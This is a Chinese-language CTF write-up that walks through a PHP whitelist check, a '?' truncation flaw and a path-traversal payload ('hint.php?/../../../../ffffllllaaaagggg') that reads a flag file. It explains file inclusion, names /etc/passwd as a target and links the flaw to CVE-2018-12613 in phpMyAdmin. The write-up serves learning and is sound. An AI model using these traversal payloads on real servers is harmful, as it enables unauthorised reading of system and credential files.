



## 一、解题过程

### 1.1 打开题目

页面打开只有一个表情，那我们直接F12看源码


### 1.2 发现source.php

HTML注释里写了一个source.php

直接访问：

```
/file=source.php
```

页面返回了一段PHP源码



### 1.3 审计源码

source.php 泄露了核心逻辑

```php
$whitelist = array('index.php', 'source.php', 'hint.php');

if (!empty($_GET['file'])) {
    $page = $_GET['file'];

    // 第一层：直接检查是否在白名单
    if (in_array($page, $whitelist)) {
        return true;
    }

    // 第二层：截取 ? 之前的部分，再检查
    $_page = mb_substr($page, 0, mb_strpos($page . '?', '?'));
    if (in_array($_page, $whitelist)) {
        return true;
    }

    // ...都没通过，返回 false
}
```

白名单里有三个文件：`index.php`、`source.php`、`hint.php`。校验逻辑有两层：

1. **第一层**：检查完整的 `file` 参数是否在白名单里
2. **第二层**：截取 `?` 之前的部分，再检查是否在白名单里

第二层的代码作用：

| 代码 | 作用 |
|------|------|
| `$page . '?'` | 在参数后面补一个 `?`，防止没有 `?` 时 `mb_strpos` 返回 false |
| `mb_strpos(..., '?')` | 找到第一个 `?` 的位置 |
| `mb_substr($page, 0, ...)` | 截取从开头到第一个 `?` 之前的部分 |
| `in_array($_page, $whitelist)` | 检查截取后的部分是否在白名单里 |

### 1.4 发现漏洞：检查的和执行的不是同一个

巨大的洞：**检查的对象和最终执行的对象不同！**​ 检查的是 ?前的内容（如 hint.php），但如果通过了检查，include执行的却是整个原始字符串

```php
$_page = mb_substr($page, 0, mb_strpos($page . '?', '?'));  // 截取后检查
if (in_array($_page, $whitelist)) {
    return true;  // 通过校验
}
// ... 然后 include，但执行的是原始的完整字符串
```

举个例子：

```
输入: hint.php?/../../../../ffffllllaaaagggg

检查: 截取 ? 前面 → hint.php → 在白名单里 → 通过
执行: include hint.php?/../../../../ffffllllaaaagggg → 路径穿越
```

>检查和执行的逻辑不一样的时候，就会出现漏洞，那要做的就是顺着检查来，因为检查是在明面上的，但操作是在服务器运行的，我检查时只检查了一部分，那没有被检查的部分就是危险的

### 1.5 打开hint.php找线索

白名单里有 `hint.php`（名字已经很明显了），打开看看：

```
/?file=hint.php
```

页面显示：



直接给了位置：flag 在 `ffffllllaaaagggg` ，结合前面发现的白名单绕过漏洞，思路就很清晰了，用 `hint.php` 骗过校验，再用路径穿越跳到 `ffffllllaaaagggg`

### 1.6 构造Payload拿flag

```
/?file=hint.php?/../../../../ffffllllaaaagggg
```

Payload拆解：

```
hint.php           ← 骗过白名单校验（截取 ? 前的部分 = hint.php，在白名单里）
?                  ← 分隔符，让 mb_substr 只截取到 hint.php
/../../../../      ← 路径穿越，回到根目录
ffffllllaaaagggg   ← hint.php 提示的目标文件
```

>分隔符试试就行

页面返回：



flag到手,整个过程：**F12发现source.php → 审计源码发现白名单校验漏洞 → hint.php提示flag位置 → 用 `?` 分割骗过校验 + 路径穿越拿flag**

## 二、文件包含漏洞是什么

### 2.1 一句话解释

**用户输入的路径，后端直接传给 `include`等函数，导致用户可以通过路径选择服务器加载哪个文件**

### 2.2 include的本质

PHP的 `include` 函数会把指定文件的内容当作PHP代码来执行。正常用法：

```php
include 'hint.php';  // 把 hint.php 的内容加载进来
```

但如果文件名来自用户输入：

```php
$page = $_GET['file'];
include $page;  // 用户控制了包含哪个文件
```

用户就可以让服务器包含任意文件——比如 `/etc/passwd`、配置文件、甚至上传的恶意文件

### 2.3 为什么白名单校验有洞

就是因为检查和执行没统一，检查截取 `?` 前的部分，执行时却用的是原始输入

```
校验: mb_substr('hint.php?/../../../../ffffllllaaaagggg', 0, 8) → 'hint.php' → 在白名单 → 通过
执行: include 'hint.php?/../../../../ffffllllaaaagggg' → 路径就穿越了
```

### 2.4 路径穿越

`../` 表示"回到上一级目录"。连续多个 `../` 就能一路回到根目录：

```
/var/www/html/hint.php?/../../../../ffffllllaaaagggg
                   ↑
              从这里开始穿越

../  → /var/www/html/
../  → /var/www/
../  → /var/
../  → /
ffffllllaaaagggg → /ffffllllaaaagggg  ← 到达根目录下的目标文件
```

PHP的 `include` 在处理包含 `?` 的路径时，会把 `?` 前面当作文件路径，`?` 后面被忽略，但路径穿越的 `../` 在 `?` 后面，却还生效，就是因为 PHP 解析路径时，先处理了 `../` 进行目录跳转，`?` 后面的路径仍然会被解析

## 三、总结

这道题的核心就一句话：**校验时截取了 `?` 前的内容做白名单检查，但执行时用的是完整的原始字符串，导致可以用 `?` 分割骗过校验再用路径穿越跳到目标文件**

>大概相当于只检查一部分，以偏概全了

> 这道题是 phpMyAdmin 4.8.1 的一个真实CVE漏洞（CVE-2018-12613）的复刻，漏洞一模一样——白名单校验用 `mb_substr` 截取 `?` 前的内容，但 `include` 执行的是原始字符串，所以CTF题不只是玩具，很多都是真实漏洞的简化版

---

Orion notes · 学习·实践·分享
